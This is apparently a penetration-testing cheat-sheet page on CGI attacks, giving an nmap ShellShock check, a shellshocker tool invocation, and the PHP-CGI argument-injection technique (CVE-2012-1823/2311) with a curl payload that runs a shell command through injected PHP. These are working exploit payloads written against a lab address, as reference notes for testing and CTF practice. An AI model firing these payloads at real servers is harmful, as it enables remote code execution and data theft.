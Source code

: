 # CGI

## ShellShock

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/shellshock" %}

{% embed url="https://github.com/erinzm/shellshocker" %}

Nmap:

```
nmap 10.10.10.10 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

Shellshocker example:

```
python shellshocker.py http://10.10.10.10/cgi-bin/admin.cgi
```

## Old PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/php-cgi-exploitation" %}

Basically if cgi is active and php is "old" (<5.3.12 / < 5.4.2) you can execute code.\
In order to exploit this vulnerability, you need to access some PHP files of the web server without sending parameters (especially without sending the character "=").\


Then, in order to test this vulnerability, you could access for example `/index.php?-s` (note the `-s`) and the **source code of the application will appear in the response**.

Then, in order to obtain **RCE **you can send this special query: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` and the **PHP code **to be executed in the **body of the request.**

****\
**Example:**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

****
